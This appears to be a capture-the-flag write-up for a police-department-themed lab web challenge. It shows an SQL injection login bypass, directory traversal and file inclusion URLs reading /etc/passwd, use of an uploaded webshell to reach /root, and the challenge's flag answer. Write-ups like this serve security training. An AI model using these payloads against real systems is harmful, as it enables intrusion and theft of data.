 # Checking the site

The website is the Racoon City Police Department's website.

![](screenshots/1.png)

# Login

There is an SQL injection on the login page. Using the standard `' OR 1=1 --` in the username and password instantly let us in.

![](screenshots/2.png)

The error messages are also verbose if the bypass is not achived instantly.

![](screenshots/3.png)

After logging in, there is a case upload and gallery functionality.

# Gallery

Trying to open anythin in the gallery results in an error message, but the `file` parameter is visible.

The paramemter is vulnerable to directory traversal, and any file can be viewed with it, like `/etc/passwd` or the `index.php` (path from SQL error message as well).

```
http://10.10.1.11:65304/pages/gallery.php?file=../../../../../etc/passwd
http://10.10.1.11:65304/pages/gallery.php?file=../../../../../var/www/html/index.php
```

![](screenshots/4.png)

It is visible that the file is not read and printed, but included, as the php is executed and not printed.

# Cases

This is a file upload functuonality. You can upload a file, usually without restriction.

The [shell.txt](workdir/shell.txt) webshell was uploaded to an unknown location.

# Exploit

The challenge description mentions `cases directory`. Using the gallery functionality, the `shell.txt` can be found by stepping 1 directory up a few times.

```
http://10.10.1.11:65304/pages/gallery.php?file=shell.txt"
http://10.10.1.11:65304/pages/gallery.php?file=../cases/shell.txt"
http://10.10.1.11:65304/pages/gallery.php?file=../../cases/shell.txt"
http://10.10.1.11:65304/pages/gallery.php?file=../../../cases/shell.txt"
```

Alternatively to the upload directory, log poisoning or the session file can be abused to store php code.

![](screenshots/5.png)

Using the webshell, the flag can be found in [/root/Wesker.png](workdir/Wesker.png).

![](screenshots/6.png)

# Loot

The flag is inside the comment of the png.

```bash
exiftool Wesker.png
```

```
ExifTool Version Number         : 12.76
File Name                       : Wesker.png
Directory                       : .
File Size                       : 174 kB
File Modification Date/Time     : 2024:09:30 10:48:52+02:00
File Access Date/Time           : 2024:09:30 10:49:00+02:00
File Inode Change Date/Time     : 2024:09:30 10:48:52+02:00
File Permissions                : -rwxrwxrwx
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 493
Image Height                    : 408
Bit Depth                       : 8
Color Type                      : RGB
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Pixels Per Unit X               : 3780
Pixels Per Unit Y               : 3780
Pixel Units                     : meters
Comment                         : CQ24{Th1sR3s1d3nt1snt3v1L}
Image Size                      : 493x408
Megapixels                      : 0.201
```

# Flag

`CQ24{Th1sR3s1d3nt1snt3v1L}`

# Source

The source was exfiltrated and can be found in [www.tar.gz](workdir/www.tar.gz).